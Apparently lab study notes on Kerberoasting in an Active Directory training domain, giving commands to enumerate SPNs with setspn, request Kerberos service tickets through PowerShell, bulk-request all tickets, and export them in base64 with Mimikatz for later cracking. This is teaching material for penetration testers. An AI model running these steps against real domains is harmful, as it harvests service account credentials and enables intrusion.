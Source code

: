 **1.** Enumerating SPNs with setspn.exe

```cmd-session
setspn.exe -Q */*
```

We will focus on `user accounts` and ignore the computer accounts returned by the tool.

**2.** Using PowerShell, we can request TGS tickets for the interested account and load them into memory.

```powershell
Add-Type -AssemblyName System.IdentityModel
# Add-Type cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object.
# -AssemblyName parameter allows us to specify an assembly that contains types that we are interested in using
# System.IdentityModel is a namespace that contains different classes for building security token services

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
#  New-Object cmdlet to create an instance of a .NET Framework object.
# System.IdentityModel.Tokens namespace with the KerberosRequestorSecurityToken class to create a security token 
# -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433": pass the SPN name to the class to request a Kerberos TGS ticket
```


**3.** If needed, we could also retrieve all tickets:

```powershell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```


**4.** Extract Tickets from Memory with Mimikatz

```cmd-session
# Launch mimikatz
mimikatz.exe

# Specify base64
base64 /out:true
# If we do not specify the base64 /out:true command, Mimikatz will extract the tickets and write them to .kirbi files.

# Export the tickets
kerberos::list /export 
```

**5.** Next, we can take the base64 blob and remove new lines and white spaces since the output is column wrapped, and we need it all on one line for the next step.

```shell-session
echo "<base64 blob>" |  tr -d \\n 
```
